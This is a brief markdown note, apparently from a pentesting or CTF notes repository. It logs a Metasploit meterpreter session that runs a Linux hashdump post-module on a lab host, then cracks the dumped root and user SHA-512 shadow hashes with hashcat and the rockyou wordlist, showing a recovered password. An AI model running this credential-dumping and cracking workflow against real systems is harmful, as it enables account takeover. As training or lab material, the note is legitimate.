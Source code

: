 # Metasploit

TODO: Fill this info

```
meterpreter > run post/linux/gather/hashdump

[-] Failed to open file: /etc/security/opasswd: core_channel_open: Operation failed: 1
[+] root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:0:0:root:/root:/bin/bash
[+] user:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:1000:1000:user,,,:/home/user:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt

$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force

$ sudo hashcat -a 0 -m 1800 /root/.msf4/loot/20220523135620_default_10.10.198.41_linux.hashes_820054.txt /usr/share/wordlists/rockyou.txt -O --force --show
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
```

---
## References

- [Rapid7: Metasploit Framework - Crack Linux Auxiliary Analyze Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/analyze/crack_linux.md)
